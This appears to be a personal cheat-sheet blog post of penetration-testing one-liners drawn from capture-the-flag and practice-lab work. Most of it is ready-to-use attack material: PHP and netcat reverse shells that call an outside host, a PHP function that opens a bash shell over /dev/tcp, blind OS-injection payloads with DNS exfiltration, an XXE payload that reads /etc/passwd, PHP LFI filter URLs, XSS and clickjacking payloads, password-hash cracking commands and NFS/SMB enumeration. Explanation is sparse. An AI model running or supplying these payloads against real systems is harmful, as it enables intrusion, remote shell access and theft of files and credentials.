 ```yaml
---
layout: post
title: Useful Tricks and Tips
---
```


# Hashcat

- hashcat -m 1800 -a 0 hash.txt rockyou.txt

# Find command

```sh
find / -type f -newermt 2016-09-11 ! -newermt 2016-09-13 2>/dev/null
```
# Upgrading to a shell
```sh
python -c 'import pty;pty.spawn('/bin/bash')'
SHELL=/bin/bash script -q /dev/null
```

# Reverse Shell

```sh
php -r '$sock=fsockopen("x.x.x.x",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.2.97 9001 >/tmp/f
```

# Blind OS injection

```sh

||whoami>/var/www/images/output.txt||

# using DNS exfiltration Technique

email=x||nslookup+x.burpcollaborator.net||

```

# XXE Attacks

```html
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>

```
# XSS payloads

```html
<script>onclick(alert("Hello"));</script>
// window.location.hostname

```

# John Hashing

```sh

john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash1.txt
```

# Encryption gpg
- gpg --cipher-algo [encryption type] [encryption method] [file to encrypt] 
- gpg --cipher-algo AES-256 --symetric xyz.txt

## decryption
-- gpg xyz.txt

# How to crack encrypted files using john the ripper
- gpg2john [encrypted gpg file] > [filename of the hash you want to create]

# Reverse a wordlist
```sh
tac data.txt > new_data.txt
```
# Email re
-   email_re = re.compile(r'([a-zA-Z0-9_\+\-\.]+)@(([[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.)|(([a-zA-Z0-9\-]+\.)+))([a-zA-Z]{2,4}|[0-9]{1,3})(\]?)')

## Php reverse shell function
```php

function execInBackground($cmd) { 
                if (substr(php_uname(), 0, 7) == "Windows"){ 
                                    pclose(popen("start /B ". $cmd, "r"));  
                                                    } 
                                                                    else { 
                                                                                        exec($cmd . " > /dev/null &");   
                                                                                                            } 
                                                                                                                            } 
                                                                                                                                        execInBackground("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_HERE/YOUR_PORT_HERE 0>&1'");

```
# PHP LFI
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

# Practice Labs
Capture the Flag (CTF) API Portal

    docker pull sbacker/ctfapi
    docker run --name ctfapi1 -p 8000:8000 -it -d sbacker/ctfapi

Witcher Portal

    docker pull sbacker/witcherportal
    docker run -it -d --name witcher10 -p8080:8080 -e PYTHONUNBUFFERED=1 sbacker/witcherportal

# Clickjack Attack Payload

```html
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:300px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://acbe1f391e8fd65480c7a7ac017500d7.web-security-academy.net/exploit"></iframe>

```
# Enumerating Samba
-SMB has two ports, 445 and 139
- On most distributions of Linux smbclient is already installed. Lets inspect one of the shares.


Your earlier nmap port scan will have shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve.

In our case, port 111 is access to a network file system. Lets use nmap to enumerate this.

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.89.231
mkdir /mnt/kenobiNFS
mount machine_ip:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```


```bash
On most distributions of Linux smbclient is already installed. Lets inspect one of the shares.

smbclient //<ip>/anonymous
smbget -R smb://<ip>/anonymous
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.89.231

```
